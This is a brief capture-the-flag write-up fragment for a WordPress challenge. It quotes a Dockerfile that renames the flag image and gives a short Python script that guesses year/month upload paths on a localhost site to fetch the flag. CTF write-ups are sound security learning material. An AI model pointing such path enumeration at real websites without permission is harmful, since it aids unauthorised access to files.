 ![Alt text](images/image-1.png)

In the Dockerfile we can see the `flag.png` is renamed to `/flag_secret_not_so_random_get_me_1337.png`

```Dockerfile
RUN docker-php-ext-install zip
RUN docker-php-ext-install gd

COPY flag.png /flag_secret_not_so_random_get_me_1337.png
COPY plugins/test-plugin /tmp/test-plugin
COPY .htaccess /tmp/.htaccess 

ENTRYPOINT [ "make", "-f", "/scripts/Makefile" ]  
```

Using this script, I Brute-forced the flag from the uploads directory
```python
import requests

base_url = "http://localhost:8687//wp-content/uploads"
headers = {
    "Cookie": "<wp-cookies>"
}

year = 2024
for month in range(0, 13):
    if len(str(month)) == 1: 
        month = "0" + str(month)
    url = f"{base_url}/{year}/{month}/flag_secret_not_so_random_get_me_1337.png"
    resp = requests.get(url, headers=headers)
```